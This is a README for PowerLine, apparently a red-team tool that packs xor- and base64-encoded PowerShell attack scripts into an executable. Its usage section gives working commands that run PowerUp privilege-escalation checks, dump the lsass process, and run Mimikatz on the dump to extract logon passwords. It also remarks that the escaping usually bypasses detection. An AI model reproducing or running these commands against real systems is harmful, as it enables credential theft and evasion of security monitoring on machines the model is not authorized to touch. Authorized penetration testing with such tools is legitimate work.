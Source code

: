 # PowerLine

Download the Repo

Run the build.bat file

Update the UserConf.xml document to contain the URLs of the scripts that you'd like to include (examples shown)

Run the PLBuilder.exe file

The PowerLine.exe program should now be created and contains embedded, xor-encoded, base64-encoded versions of all of the scripts that you specified

Example Usage:

//Shows scripts that are currently embedded in the program

    PowerLine.exe -ShowScripts

//Run Invoke-AllChecks from the PowerUp script

    PowerLine.exe PowerUp "Invoke-AllChecks"

//Get a dump of the lsass process. Must run as an admin

    PowerLine.exe Out-Minidump "Get-Process lsass | Out-Minidump"

//Run mimikatz against the dump file created by the Out-Minidump command to extract creds. lsass_dump_name.dmp will be the name generated by Out-Minidump

//Yes, it's hellacious escaping but it works and usually bypasses detection =)

    PowerLine.exe Invoke-Mimikatz "Invoke-Mimikatz -Command \"`\"sekurlsa::minidump lsass_dump_name.dmp`\" `\"sekurlsa::logonPasswords`\"\""
